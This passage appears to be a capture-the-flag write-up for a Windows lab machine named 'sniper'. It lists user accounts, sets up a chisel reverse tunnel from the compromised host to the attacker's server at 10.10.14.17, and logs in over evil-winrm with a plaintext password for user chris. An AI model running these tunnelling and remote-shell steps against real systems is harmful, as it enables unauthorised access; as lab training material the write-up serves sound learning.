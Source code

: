 ```shell
```

And there is a `chris` user. Let's test the password using `nxc`.

```shell
PS C:\inetpub\wwwroot\user> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Chris                    DefaultAccount           
Guest                    WDAGUtilityAccount       
The command completed with one or more errors.
```

![](../assets/Pasted%20image%2020250612182144.png)

The password works for `chris`, so port forward `winrm` to access the machine as `chris`.

Transfer `chisel` to the host and create a port forwarding

```shell
$ ./chisel server --port 8888 --reverse
2025/06/12 18:28:50 server: Reverse tunnelling enabled
2025/06/12 18:28:50 server: Fingerprint 7yf/mGFiCoZ+2gBRK50StHJXJEC9ZBhDfPxGwJyI6DA=
2025/06/12 18:28:50 server: Listening on http://0.0.0.0:8888
2025/06/12 18:30:15 server: session#1: tun: proxy#R:5985=>localhost:5985: Listening
```

```shell
PS C:\users\public> .\chisel.exe client 10.10.14.17:8888 R:5985:localhost:5985
.\chisel.exe : 2025/06/12 16:32:03 client: Connecting to ws://10.10.14.17:8888
At line:1 char:1
+ .\chisel.exe client 10.10.14.17:8888 R:5985:localhost:5985
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (2025/06/12 16:3...0.10.14.17:8888:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
 
2025/06/12 16:32:04 client: Connected (Latency 42.2454ms)
```

Connect to it via `evil-winrm`

```shell
$ evil-winrm -i localhost -u chris -p 36mEAhz/B8xQ~2VM

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chris\Documents> whoami
sniper\chris
```
